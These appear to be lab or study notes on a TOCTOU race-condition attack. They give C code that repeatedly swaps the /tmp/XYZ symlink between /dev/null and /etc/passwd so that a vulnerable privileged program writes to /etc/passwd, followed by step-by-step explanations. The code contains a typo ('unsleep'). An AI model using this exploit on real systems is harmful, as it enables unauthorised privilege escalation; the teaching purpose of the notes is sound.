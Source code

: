 We want to use such a program for modifying the `/etc/passwd` file, eve if:

- we do not have root privileges
- the program is written for accessing the file `/tmp/XYZ`

But we know about the existence of the `/dev/null` file

###### The attack

```c
#include <unistd.h>

int main() {
    while(1) {
        unlink("/tmp/XYZ");
		symlink("/dev/null", "/tmp/XYZ");
        unsleep(1000);
            
		unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
		usleep(1000);
    }
    
    return 0;
}
```

$$
\textbf{[... gpt notes}
$$

1. **Unlink the file** /tmp/XYZ**:**

    The first unlink() call removes the existing file /tmp/XYZ. This is necessary so that we can create a symbolic link in its place.

2. **Create a symbolic link to** /dev/null**:**
    The symlink() call creates a symbolic link from /tmp/XYZ to /dev/null. At this moment, if the vulnerable program checks the file /tmp/XYZ, it will think that the user has access to it because /dev/null is universally writable.

3. **Sleep for a short time:**
    The usleep(1000) call adds a small delay, hoping that the vulnerable program will perform the access() check during this time. This is key to exploiting the race condition.

4. **Unlink** /tmp/XYZ **again:**
    The next unlink() removes the symbolic link to /dev/null, freeing up the name /tmp/XYZ.

5. **Create a new symbolic link to** /etc/passwd**:**
    The symlink("/etc/passwd", "/tmp/XYZ") creates a new symbolic link from /tmp/XYZ to /etc/passwd. Now, if the vulnerable program calls open("/tmp/XYZ"), it will actually open /etc/passwd instead of /tmp/XYZ.

6. **Sleep again:**
    Another small delay is introduced to increase the chances that the program will execute the open() system call after the symbolic link has been changed.
